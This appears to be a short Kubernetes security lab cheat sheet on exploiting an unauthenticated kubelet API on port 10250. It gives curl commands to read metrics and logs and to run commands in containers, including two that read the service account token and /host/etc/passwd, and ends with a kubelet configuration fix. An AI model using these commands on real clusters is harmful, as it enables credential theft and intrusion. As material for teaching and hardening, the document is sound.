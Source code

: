 
# get infos

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/
curl -k https://$IP:10250/logs/pods/    <!-- last slash is important -->
curl some pod

# get sensitive data

curl -XPOST -k https://$IP:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it

vi /var/lib/kubelet/config.yaml
=> enabled: false
=> mode: Webhook
systemctl daemon-reload
systemctl restart kubelet
systemctl status kubelet

... run curls again

